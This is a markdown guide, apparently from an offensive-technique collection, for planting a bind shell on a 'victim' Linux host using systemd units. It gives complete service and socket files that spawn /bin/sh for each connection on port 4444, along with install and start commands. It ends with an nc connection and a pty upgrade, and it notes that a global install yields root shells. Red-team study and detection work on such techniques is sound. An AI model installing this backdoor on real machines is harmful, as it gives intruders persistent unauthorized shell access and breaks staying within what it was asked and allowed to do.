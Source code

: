 # Bind Shell

## Description

This sequence of commands sets up a bind shell using a socket unit and service unit.

The service file (`bindsh@.service`) uses:

* The `StandardInput` directive to notify systemd the shell expects input from a socket connection
* The `ExecStart` directive to execute the shell when a connection is made
* The `Requires` directive to only execute this shell when started by our socket unit

The socket file (`bindsh.socket`) uses:

* The `ListenStream` directive to identify which network port to listen on
* The `FreeBind` directive to accept non-local IP connections
* The `Accept` directive to create new shells for each incoming connection
  * This is done via template services (service units with '@' in the name)

## Additional Notes

* If these units are installed in one of the global systemd folders, such as `/etc/systemd/system`, the
  shell will be started as the root user
* If `Accept` is not enabled and templates services are not used, the socket will not be able to
  properly pass input to the shell, or the shell service will not be able to start at all
* When these shell services get instantiated by systemd, they will include the local and remote IPs in their name.
  This follows the below format, where ${LHOST} is the host running the bind shell, and ${RHOST} is the host connecting:

  ```sh
  bindsh@3-${LHOST}:${LPORT}-${RHOST}:${RPORT}.service
  ```

* A "slice" is created to correlate all the processes associated with the socket:

  ```sh
  $ systemctl --user status bindsh.slice
  ● bindsh.slice
    Loaded: loaded
    Active: active since Sat 2020-02-15 20:52:47 UTC; 14min ago
    CGroup: /user.slice/user-1000.slice/user@1000.service/bindsh.slice
            └─bindsh@3-10.10.10.10:4444-10.10.10.11:54718.service
              ├─10740 /bin/sh
              ├─10791 python -c import pty;pty.spawn('/bin/bash')
              └─10792 /bin/bash
  ```

## Step by Step

1. Generate a service template file to process sh commands

```ini
$ cat bindsh@.service
; https://www.freedesktop.org/software/systemd/man/systemd.service.html
[Unit]
Description=A simple bind shell - sh half
Requires=bindsh.socket

[Service]
Type=simple
StandardInput=socket
ExecStart=/bin/sh
```

2. Generate a socket file to listen on port 4444 of the victim

```ini
$ cat bindsh.socket
; https://www.freedesktop.org/software/systemd/man/systemd.socket.html
[Unit]
Description=A simple bind shell - socket half

[Socket]
ListenStream=4444
FreeBind=true
Accept=yes
```

3. Install into the systemd user folder on the victim

```sh
$ mkdir -p ~/.config/systemd/user/
$ ln -s `pwd`/bindsh@.service ~/.config/systemd/user/
$ ln -s `pwd`/bindsh.socket ~/.config/systemd/user/
```

5. Start the TCP listener

```sh
$ systemctl --user start bindsh.socket
```

6. Connect to the victm from your machine

```sh
$ nc 10.10.10.10 4444
python -c "import pty;pty.spawn('/bin/bash')"
user@victim:~$
```
